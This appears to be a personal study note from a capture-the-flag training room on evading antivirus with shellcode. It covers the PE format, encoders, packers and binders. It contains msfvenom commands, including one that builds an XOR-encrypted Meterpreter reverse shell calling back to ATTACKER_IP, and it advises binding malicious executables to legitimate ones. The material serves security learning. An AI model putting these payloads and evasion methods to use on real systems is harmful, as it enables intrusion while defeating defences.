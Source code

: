 Shellcode is a set of crafted machine code instructions that instruct a vulnerable program to run 
additioanly functionality like spawn system shells or reverse shell. Consider visiting the article [[Shellcode]] contains descriptions and further links to various aspects, use case and writing.

[[Windows-Portable-Executable-Format]] is a data structure for file information, organising executable file on a disk; it is important to understand this format for AV as suitable shellcode location, how unpacking and packing occurs and finally that malware analysts and AV analyses this format and its contents to detect malicious code.  

[[Shellcode]] is a set of machine code instructions that executes a payload within the runtime context of vulnerable software to then exploit a machine - see article. To bypass AV we either require a staged or stageless payload.

Encoding or the use of [[Cryptography]] can be used to bypass AV, but modern AV may check for excessive amounts of entropy.  [[Metasploit]] and [[Metasploit-AV-Evasion]]
```bash 
# Find "excellent" encoders 
msfvenom --list encoders | grep excellent
# List encryption formats
msfvenom --list encrypt
# Encrypting meterpreter
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyKey" -o xored-revshell.exe
```

[[Packers]] transform a program as input so that the functionality is the same but its structure differs:
- Compression to reduce size
- Protect against [[Static-Malware-Analysis]] and [[Reverse-Engineering]] - [[Anti-Reverse-Engineering-Techniques]]

Packers can help evade AV by modifying known signatures in your executable, although packed application can be flagged by AV solutions becuase of:
- Packed applications contain a stub that can be signatured
- AV that performs In-memory scanning might detect the unpack in-memory code that is malicious to that host. 


[[Binders]] merge executable into a single executable. For AV evasion merging your packed malicious executable with a legitimate executable may help in bypassing AV.

## References

[THM AV Evasion Shellcode Room](https://tryhackme.com/room/avevasionshellcode)